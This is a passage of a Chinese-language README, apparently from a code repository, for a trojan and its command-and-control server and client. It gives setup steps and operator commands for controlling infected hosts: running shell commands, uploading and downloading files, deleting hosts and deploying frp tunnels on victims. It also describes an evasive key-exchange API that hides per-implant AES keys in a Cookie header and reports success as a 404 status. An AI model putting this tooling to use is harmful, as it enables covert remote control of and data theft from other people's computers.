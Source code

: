 非常简单，在填写好 settings.py 文件后，只需要使用 python3 运行 start.py 文件即可，等待其安装完依赖即可

```bash
python3 start.py
```
**注意：**

**在填写 settings.py 文件时要注意，里面的本地IP地址最好填写本地出网IP地址，linux使用 ifconfig 而 windows  使用 ipconfig 来看本地IP地址来填写，而不是云服务器的公网IP地址**



控制端使用：

也非常简单，也是填写好 settings.py 文件后，安装一下依赖，只需要使用 python3 运行 client.py 文件即可

```bash
pip3 install -r requirements.txt
python3 client.py
```
```bash
查看当前上线主机
  getlive

对上线主机进行操作
  set 主机ID 操作[shell,time,uploadfile,downfile,del,frp] 参数

 例：
  set 主机ID shell 你要执行的系统命令
  set 主机ID time 你要设定的时间(如果时间小于零则默认设置为10)
  set 主机ID uploadfile 要上传的文件路径 目标路径
  set 主机ID downfile 目标文件路径
  set 主机ID del(删除主机)
  set 主机ID shell exit_yes(执行此命令木马会停止运行)
  set 主机ID frp windows/linux(这里是指定目标机的系统平台):x64/x86(指定使用 frp 程序架构) 端口号

查看帮助
  help

要退出请按两次 ctrl + c

```


视频教程：[https://www.bilibili.com/video/BV1NY4y1p7QG](https://www.bilibili.com/video/BV1NY4y1p7QG)



# **功能解析**
### **统一控制API接口**
##### 木马通信唯一ID和AES秘钥分发接口：/getkeys
该接口的秘钥实现依赖 ./lib/baseser.py 文件中的 getkeys() 方法

该接口下发秘钥数据经过base64位加密后保存在响应头的 Cookie 中，木马请求这个接口下发的通信ID和AES秘钥都是随机生成的MD5值，木马要与服务器通信就需要其唯一身份ID和使用下发的随机AES秘钥对数据进行加密，即每一个身份ID都对应者一个AES秘钥。秘钥下发成功则响应状态码为 404 ，失败则为 200，秘钥下发后就会设置一个木马唯一身份ID值绑定的任务 {"sleeptime":"","cdm":"getlive"}，而木马要成功上线就要根据下发的唯一身份ID和AES秘钥来请求执行该任务才能完成上线
